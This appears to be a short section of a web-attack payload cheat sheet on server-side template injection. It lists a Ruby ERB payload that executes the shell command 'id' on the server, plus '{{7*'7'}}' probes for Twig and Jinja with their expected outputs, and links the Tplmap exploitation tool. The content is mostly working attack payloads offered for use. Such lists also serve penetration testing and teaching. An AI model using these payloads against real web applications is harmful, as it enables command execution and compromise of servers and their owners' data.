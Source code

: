 ## Template Injection

**Ruby**

```ruby
<%=`id`%>
```

**Twig**

The following payload should output `49`.

```
{{7*'7'}}
```

**Jinja**

This payload should output `7777777`.

```
{{7*'7'}}
```


- [Tplmap](https://github.com/epinna/tplmap)